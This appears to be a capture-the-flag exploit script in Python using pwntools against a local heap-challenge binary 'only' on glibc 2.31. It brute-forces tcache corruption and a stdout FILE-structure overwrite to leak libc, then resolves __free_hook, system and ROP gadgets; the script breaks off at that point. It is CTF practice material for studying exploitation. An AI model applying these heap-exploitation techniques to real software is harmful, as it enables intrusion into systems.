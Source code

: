 ```python
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')
context.terminal = "wt.exe -w main nt bash -c".split()

sh = process(['./only'])
elf = ELF('./only')
libc = ELF('/home/nova/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc.so.6')

def initial(size: int = 0, init: bool = False):
    sh.sendlineafter(b"Choice >> ", b'0')
    if init:
        sh.sendlineafter(b"Size:", str(size).encode())


def increase(size: int, content: bytes):
    sh.sendlineafter(b"Choice >> ", b'1')
    sh.sendlineafter(b"Size:", str(size).encode())
    sh.sendafter(b"Content:", content)


def decrease():
    sh.sendlineafter(b"Choice >> ", b'2')


def debug():
    gdb.attach(sh, 'b *$rebase(0x1718)\nb *$rebase(0x1794)\nb *$rebase(0x1773)')
    pause()


while True:
    sh = process(['./only'])
    increase(0xe0, b'\n')
    decrease()
    initial(init=False)
    decrease()

    increase(0xe0, b'\xf0\xb7\n')
    increase(0xe0, b'\xf0\xb7\n')
    try:
        increase(0xe0, p64(0) + p64(0x491) + b'\x00\xb8\n')
        increase(0x60, b'\n')
        decrease()
        increase(0x30, b'\xa0\x16\n')
        increase(0x60, b'\n')
        increase(0x60, p64(0xfbad3887) + p64(0)*3 + p8(8) + b'\n')
    except EOFError:
        sh.close()
        continue

    libc_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x1eb980
    if not hex(libc_base).startswith("0x7f"):
        sh.close()
        continue
    free_hook = libc_base + libc.sym['__free_hook']
    system = libc_base + libc.sym['system']
    pop_rdi_ret = libc_base + 0x26b72
    pop_rsi_ret = libc_base + 0x27529
    pop_rdx_pop_r12_ret = libc_base + 0x11c1e1
    pop_rbp_ret = libc_base + 0x256c0
    mov_rsp_rdx_ret = libc_base + 0x5e650
    open = libc_base + libc.sym['open']
    read = libc_base + libc.sym['read']
```